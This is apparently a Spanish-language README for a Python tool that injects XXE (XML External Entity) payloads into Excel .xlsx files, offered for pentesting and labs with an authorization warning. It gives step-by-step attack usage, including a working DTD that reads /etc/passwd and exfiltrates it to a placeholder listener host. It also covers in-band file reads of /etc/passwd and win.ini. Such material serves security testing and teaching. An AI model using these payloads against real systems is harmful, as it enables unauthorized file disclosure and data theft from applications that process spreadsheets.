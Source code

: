 Inyector XXE para Archivos XLSX
===============================

Esta es una herramienta de línea de comandos escrita en Python para inyectar payloads de XXE (XML External Entity) en archivos `.xlsx`. Su propósito es facilitar la experimentación y la demostración de vulnerabilidades XXE en entornos controlados de pentesting y laboratorios de seguridad.

**ADVERTENCIA:** Esta herramienta está diseñada exclusivamente para fines educativos y para ser utilizada en sistemas donde se tenga autorización explícita. El uso no autorizado de esta herramienta contra sistemas ajenos es ilegal.

✨ Características
-----------------

-   **Dos Modos de Ataque:**

    -   `oob` (Out-of-Band): Ideal para detectar la vulnerabilidad y exfiltrar datos a un servidor externo.

    -   `inband`: Muestra el contenido de un archivo local directamente en una celda del archivo Excel.

-   **Flexibilidad en OOB:** Permite elegir en qué archivo XML interno del `.xlsx` se inyectará el payload (ej. `workbook.xml`, `sheet1.xml`, etc.).

-   **Respeto por el Contenido:** En el modo `inband`, el script modifica el archivo original de forma quirúrgica para preservar el resto del contenido, sobrescribiendo únicamente la celda A1.

-   **Interfaz Clara:** Mensajes de color y una ayuda detallada para un uso sencillo e intuitivo.

🚀 Instalación y Requisitos
---------------------------

Solo necesitas **Python 3**. No se requieren librerías externas.

1.  **Clona o descarga el script:**

    ```
    git clone https://github.com/arthusu/xxe_injector_xlsx.git
    cd xxe_injector_xlsx

    ```

    O simplemente guarda el archivo `xxe_injector.py` en tu máquina.

2.  **¡Listo!** Ya puedes usar el script.

🛠️ Uso
-------

La estructura básica del comando es la siguiente:

```
python3 xxe_injector.py -i <archivo_entrada.xlsx> -o <archivo_salida.xlsx> [opciones]

```

### Argumentos

| **Argumento** | **Descripción** | **Requerido** |
| --- | --- | --- |
| `-i`, `--input` | El archivo `.xlsx` original que se usará como base. | **Sí** |
| `-o`, `--output` | El nombre del nuevo archivo `.xlsx` que contendrá el payload. | **Sí** |
| `-m`, `--mode` | El modo de ataque. Opciones: `oob` (defecto) o `inband`. | No |
| `-H`, `--host` | Tu dirección IP o dominio donde escucharás las conexiones. | **Sí** (solo para modo `oob`) |
| `-f`, `--file` | La ruta absoluta al archivo que quieres leer en el sistema víctima (ej. `/etc/passwd`). | **Sí** (solo para modo `inband` o exfiltración `oob`) |
| `-t`, `--target` | [Solo modo `oob`] Elige el archivo XML interno a modificar usando un número (ver ayuda para la lista). | No (defecto: 1, `xl/workbook.xml`) |


💡 Ejemplos Prácticos
---------------------

### 1\. Detección Simple (Out-of-Band)

Este es el caso de uso más simple para confirmar si un sistema es vulnerable.

**Paso 1: Inicia un listener en tu máquina.**

```
# Escucha en el puerto 8000
python3 -m http.server 8000

```

**Paso 2: Ejecuta el script.**

```
python3 xxe_injector.py -i entrada.xlsx -o salida_oob.xlsx -H tu-ip:8000

```

Si al procesar `salida_oob.xlsx` recibes una conexión en tu listener pidiendo `/pwn.dtd`, ¡el sistema es vulnerable!

### 2\. Exfiltración de Archivos (Out-of-Band)

Para leer un archivo y enviar su contenido a tu servidor.

**Paso 1: Crea el archivo `exploit.dtd` en tu máquina.** Con el siguiente contenido:

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % exfil "<!ENTITY &#37; send SYSTEM 'http://tu-ip:8000/?content=%file;'>">
%exfil;
%send;

```

*Reemplaza `/etc/passwd` por el archivo que quieras leer y `tu-ip:8000` por tu listener.*

**Paso 2: Inicia tu listener en la misma carpeta donde guardaste `exploit.dtd`.**

```
python3 -m http.server 8000

```

**Paso 3: Ejecuta el script.**

```
python3 xxe_injector.py -i entrada.xlsx -o salida_exfil_oob.xlsx -H tu-ip:8000 -f /etc/passwd

```

Cuando el sistema vulnerable procese el archivo, verás una petición en tu listener que contiene el contenido de `/etc/passwd` en la URL.

### 3\. Exfiltración de Archivos (In-Band)

Para que el contenido de un archivo aparezca directamente en la celda A1.

**Ejecuta el script:**

```
# Para un sistema Linux/macOS
python3 xxe_injector.py -i entrada.xlsx -o salida_inband.xlsx -m inband -f /etc/passwd

# Para un sistema Windows
python3 xxe_injector.py -i entrada.xlsx -o salida_inband.xlsx -m inband -f "c:/windows/win.ini"

```

Abre el archivo `salida_inband.xlsx` en una aplicación vulnerable. El contenido del archivo especificado debería aparecer en la celda A1.
